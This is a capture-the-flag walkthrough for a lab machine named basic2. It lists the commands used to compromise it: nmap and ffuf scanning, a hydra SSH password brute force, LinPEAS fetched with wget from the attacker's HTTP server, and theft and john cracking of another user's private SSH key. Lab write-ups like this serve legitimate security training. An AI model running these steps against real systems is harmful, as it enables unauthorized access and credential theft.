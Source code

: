 10.10.162.125


###### open vpn

```
$ sudo openvpn Desktop/pelapels.ovpn
```

###### ping

```
$ ping 10.10.159.226
```


###### nmap scan
```
$ sudo nmap -sC -sV 10.10.159.226
```

                                                                                                                                                                                         
### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```


### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```

### login to user through ssh
```
$ ssh jan@10.10.162.125
```

### maghhost ng file para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```

### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```

### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```

### found possible private SSH keys 
/home/kay/ .ssh/id_rsa

### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

### list files
```
jan@basic2:/home/kay$ ls
```

found pass.bak

### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```

### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

### found id_rsa

### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```

### save ssh key
```
$ mousepad kay_id_rsa
```


### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```


### chmod 
```
$ chmod 600 kay_id_rsa
```

### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```

### list down files
```
kay@basic2:~$ ls
```

### print pass.bak
```
kay@basic2:~$ cat pass.bak
```













